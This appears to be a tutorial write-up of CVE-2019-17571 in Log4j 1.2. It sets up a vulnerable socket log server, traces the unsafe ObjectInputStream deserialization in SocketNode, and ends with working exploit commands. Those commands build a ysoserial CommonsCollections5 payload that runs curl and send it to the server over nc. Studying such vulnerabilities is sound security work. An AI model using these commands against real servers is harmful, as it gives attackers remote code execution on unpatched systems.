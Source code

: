 # CVE-2019-17571

## Setup

* JankenTestLogServer.jar - Apache Log4j 1.2.X server ( [JankenTestLogServer.jar](/website/assets/files/JankenTestLogServer.jar) )
* [java jdk1.7.0_80](https://files-cdn.liferay.com/mirrors/download.oracle.com/otn-pub/java/jdk/7u80-b15/jdk-7u80-linux-x64.tar.gz)
* [jadx: Java decompiler](https://github.com/skylot/jadx) 
* config.properties - config file with following content

```
log4j.rootLogger=DEBUG, consoleAppender, fileAppender

log4j.appender.consoleAppender=org.apache.log4j.ConsoleAppender
log4j.appender.consoleAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.consoleAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n

log4j.appender.fileAppender=org.apache.log4j.RollingFileAppender
log4j.appender.fileAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.fileAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n
log4j.appender.fileAppender.File=demoApplication.log
```


### Running the log4j server. We run it on port `5111` (first argument) with `config.properties` as config file(2nd argument)

```bash

$ java -jar JankenTestLogServer.jar 5111 config.properties # this will run a server on port 5111 listening for socket connection
# config.properties file is described above in setup
```

## Finding the bug

Open `JankenTestLogServer.jar` with `jadx` to view the source code. 

![cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)

```java
try {
    logger.info("Listening on port " + port);
    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        logger.info("Waiting to accept a new client.");
        Socket socket = serverSocket.accept();
        logger.info("Connected to client at " + socket.getInetAddress());
        logger.info("Starting new socket node.");
        new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

The code starts Listening on port provided(5111 in our case) and whenever there is a new connection a new Thread is spawn to fulfil the socket request. The following code is responsible for that:

```java

new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();

```

So lets inspect `SocketNode` function. Its imported from `import org.apache.log4j.net.SocketNode;`. Lets open `SocketNode.java`


![cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)

```java

 public SocketNode(Socket socket2, LoggerRepository hierarchy2) {
    this.socket = socket2;
    this.hierarchy = hierarchy2;
    try {
        this.ois = new ObjectInputStream(new BufferedInputStream(socket2.getInputStream()));
    } catch (InterruptedIOException e) {
        Thread.currentThread().interrupt();
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e);
    } catch (IOException e2) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e2);
    } catch (RuntimeException e3) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e3);
    }
}	
```

So the Input from socket stream is read directly into `ObjectInputStream` and this is where Deserialization occurs. So we just need to send a serialized rce object and this will get us rce.


## Exploit

```bash
$ tar -xf jdk-7u80-linux-x64.tar.gz
$ ./jdk-7u80-linux-x64/bin/java -jar ysoserial.jar CommonsCollections5 "curl http://localhost:1111/" > haxtest.bin
$ cat haxtest.bin | nc localhost 5111
```

![cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)


Enjoy the rce



